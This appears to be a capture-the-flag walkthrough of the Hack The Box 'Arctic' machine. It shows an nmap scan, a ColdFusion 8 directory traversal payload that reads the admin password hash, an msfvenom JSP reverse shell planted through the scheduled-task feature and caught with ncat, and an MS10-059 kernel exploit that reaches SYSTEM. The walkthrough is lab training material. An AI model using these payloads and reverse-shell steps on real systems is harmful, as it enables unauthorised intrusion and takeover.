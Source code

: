 first enumeration with nmap 

```
# Nmap 7.93 scan initiated Thu May 18 21:37:02 2023 as: nmap -sC -sV -T4 -oN normal.txt -p 135,8500,49154 -Pn 10.10.10.11
Nmap scan report for 10.10.10.11
Host is up (0.18s latency).

PORT      STATE SERVICE VERSION
135/tcp   open  msrpc   Microsoft Windows RPC
8500/tcp  open  fmtp?
49154/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu May 18 21:39:25 2023 -- 1 IP address (1 host up) scanned in 143.20 seconds
```

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/3cef4adf-938f-45bf-b8ed-40b7e96c9c33)

noticed a web server running on port `8500`, opening it on a browser we got to see to dirs.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/79262d67-745f-442c-96e7-4e25cd960869)

navigating to the first dir, got to see some hidden dirs. let's check out the `administrator` dir.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/370e740d-cc0b-468c-8d4a-476e1eb2659e)

we can see the administrator page is running an `Adobe cold fussion 8` service. let's check for exploits.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/0e0a12c1-0d98-4b8c-8295-1f4f499d00a5)

with a little research, found out that it is vuln to a `Directory Traversal` attack. [exploit](https://www.exploit-db.com/exploits/14641).

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/eba38a7d-5d9c-4b50-ac2d-2d8f6cc7a395)

using payload `/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en` we're able to read the password hash of this service. let's crack this hash.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/090e82e0-2224-452b-802e-e8a22a677aa7)

using an online hash cracker, we are able to crack the hash. `happyday`. let's login using this password.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/aa927087-fd9f-4081-9aec-76e006b3eafa)

cool we're in the administrator panel, let's play around and find a way to get shell.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/b1c6b682-a440-4b45-88a3-143766222ec4)

navigate to the task schedule button and click schedule new task button.

```
┌──(n16hth4wk👽n16hth4wk-sec)-[~/Documents/HTB/Artic]
└─$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.14 LPORT=445 -f raw -o shell.jsp
Payload size: 1496 bytes
Saved as: shell.jsp
```
first we generate a jsp reverse shell.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/0feb9ac2-e596-4183-96f5-e2e6197440b1)

add a new task, set up a python listener, so it will download the shell and output it to the dir `C:\ColdFusion8\wwwroot\CFIDE\shell.jsp`. click on submit

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/89043d60-36f0-415b-abc3-e2b66670c687)

fire up ncat listener and hit the run button. 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/9616bf24-762e-499f-a1c4-568f4a8efe25)

now let's navigat to the uploaded payload so it will trigger a reverse shell.

```
┌──(n16hth4wk👽n16hth4wk-sec)-[~/Documents/HTB/Artic]
└─$ ncat -lnvp 445                                                                 
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::445
Ncat: Listening on 0.0.0.0:445
Ncat: Connection from 10.10.10.11.
Ncat: Connection from 10.10.10.11:49589.
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\ColdFusion8\runtime\bin>whoami
whoami
arctic\tolis

C:\ColdFusion8\runtime\bin>
```
check back ncat listener and Boom we got reverse shell as `arctic\tolis`


## Privilege Escalation

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/3bfceef4-c244-49e3-b303-b6fad22d91a8)

first check `systeminfo`, copy the output of systeminfo into a file and save it.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/7d2bd673-4150-4c8e-84c1-989dbfd4aca3)

ran windows-exploit-suggester found [here](https://github.com/AonCyberLabs/Windows-Exploit-Suggester). we can see so many kernel exploit we can use. let's use `MS10-059`. which you can find [windows-exploit](https://github.com/ASR511-OO7/windows-kernel-exploits/tree/master/MS10-059).

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/b45d36f7-d1fc-4e37-af71-dba22159e491)

Download the exe file, and send to the target.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/53215f8a-46f2-4f0b-bdd5-8129b853ca4e)

ran the exploit and boom got a reverse shell as `nt authority\system`





